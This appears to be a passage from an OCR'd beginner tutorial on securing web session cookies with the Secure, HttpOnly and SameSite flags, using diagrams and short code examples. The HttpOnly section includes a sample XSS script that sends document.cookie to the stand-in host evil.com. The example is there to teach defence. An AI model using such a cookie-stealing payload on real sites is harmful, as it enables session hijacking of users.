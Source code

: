 ```
│         ↓                │
│    🔒 Encrypted Tunnel   │ ← 👁️ Hacker sees gibberish!
│         ↓                │
│    🖥️ Website Server     │
└──────────────────────────┘

Code Example:
// ❌ Insecure
Set-Cookie: sessionId=abc123

// ✅ Secure
Set-Cookie: sessionId=abc123; Secure
```

**The "HttpOnly" Flag:**
```
Without HttpOnly:
<script>
  // JavaScript can access cookies!
  var stolen = document.cookie;
  // Attacker sends to their server
  fetch('https://evil.com/steal?cookie=' + stolen);
</script>
Result: XSS attacks can steal cookies!

With HttpOnly:
<script>
  // JavaScript CANNOT access cookies!
  console.log(document.cookie);  // Empty!
</script>
Result: XSS attacks fail!

Code Example:
Set-Cookie: sessionId=abc123; HttpOnly
```

**The "SameSite" Flag:**
```
Without SameSite:
You visit: evil.com
Evil site makes request to: yourbank.com
Your browser sends cookies to yourbank.com
Result: CSRF attack succeeds! 💸

With SameSite=Strict:
You visit: evil.com
Evil site makes request to: yourbank.com
Browser says: "Nope! Cookie only for yourbank.com requests"
Result: CSRF attack blocked! ✅

With SameSite=Lax:
Allows cookies on safe requests (GET)
Blocks cookies on dangerous requests (POST, DELETE)

Code Example:
Set-Cookie: sessionId=abc123; SameSite=Strict
```
